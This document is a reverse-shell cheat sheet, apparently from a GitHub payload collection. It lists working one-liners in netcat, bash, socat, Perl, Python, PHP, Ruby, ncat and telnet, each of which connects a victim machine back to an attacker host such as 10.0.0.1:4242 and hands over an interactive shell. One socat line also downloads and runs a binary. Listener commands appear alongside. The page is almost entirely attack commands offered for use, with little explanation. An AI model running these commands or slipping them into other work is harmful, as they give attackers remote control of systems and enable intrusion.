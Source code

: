 ### Netcat Traditional
	
	nc -e /bin/sh 10.0.0.1 4242
	
	nc -e /bin/bash 10.0.0.1 4242
	
	nc -c bash 10.0.0.1 4242
	
	and catching it with:
	
	nc -lvp 4444

### Bash TCP

	bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

	0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196

### Bash UDP

	Victim:

	sh -i >& /dev/udp/10.0.0.1/4242 0>&1
	
	Listener:
	
	nc -u -lvp 4242

### Socat

	user@attack$ socat file:`tty`,raw,echo=0 TCP-L:4242
	
	user@victim$ /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
	
	user@victim$ wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242

Static socat binary can be found at [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)

### Perl

	perl -e 'use Socket;$i="10.0.0.1";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
	
	perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
	
	NOTE: Windows only
	
	perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

### Python

Linux only

IPv4

	export RHOST="10.0.0.1";export RPORT=4242;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

IPv4
	
	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

IPv6
	
	python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4242,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'
	
	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

### PHP

	php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
	
	php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'

### Ruby

	ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",4242).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
	
	ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
	
Windows only

	ruby -rsocket -e 'c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

### Netcat OpenBsd

	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f

### Ncat

	ncat 10.0.0.1 4242 -e /bin/bash

	ncat --udp 10.0.0.1 4242 -e /bin/bash

### Telnet

	rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p

	telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443